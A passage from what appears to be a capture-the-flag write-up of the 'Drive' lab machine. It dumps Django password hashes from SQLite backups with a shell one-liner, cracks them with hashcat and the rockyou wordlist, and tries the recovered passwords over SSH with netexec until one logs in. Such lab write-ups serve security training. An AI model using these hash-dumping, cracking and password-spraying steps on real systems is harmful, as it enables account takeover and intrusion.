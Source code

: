     martin@drive:/dev/shm$ ls | while read db; do echo "$db"; sqlite3 "$db" 'select username,password from accounts_customuser;'; done | grep sha1 | sort -u | tr '|' ':'
    admin:sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    crisDisel:sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    jamesMason:sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz:sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands:sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
    tomHands:sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
    tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
    tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141



### Crack Passwords

I'll take the usernames and hashes from the backup DB and send them
through `hashcat`:



    $ hashcat hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
                                                   
    124 | Django (SHA-1) | Framework
    ...[snip]...
    sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
    sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
    sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
    sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
    ...[snip]...



All four passwords for tomHands crack.

### SSH

#### Identify Password

To quickly check is any of these work over SSH, I'll create a text file
with one per line, and feed it to `netexec`:



    oxdf@hacky$ netexec ssh drive.htb -u tom -p tom_passwords 
    SSH         10.10.11.235    22     drive.htb        [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
    SSH         10.10.11.235    22     drive.htb        [-] tom:john316 Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [-] tom:john boy Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [-] tom:johniscool Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [+] tom:johnmayer7  - shell access!



It works!

#### Shell

